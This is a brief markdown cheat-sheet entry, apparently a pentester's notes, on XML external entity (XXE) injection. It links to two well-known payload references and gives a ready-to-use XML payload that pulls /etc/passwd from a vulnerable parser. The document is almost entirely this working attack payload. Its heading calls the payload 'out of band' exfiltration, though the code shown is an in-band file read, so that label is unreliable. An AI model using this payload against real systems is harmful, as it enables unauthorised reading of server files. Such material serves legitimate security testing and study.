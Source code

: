 # XXE xml external entity
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

## exfiltrate file out of band payload
PayloadsAllTheThings
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

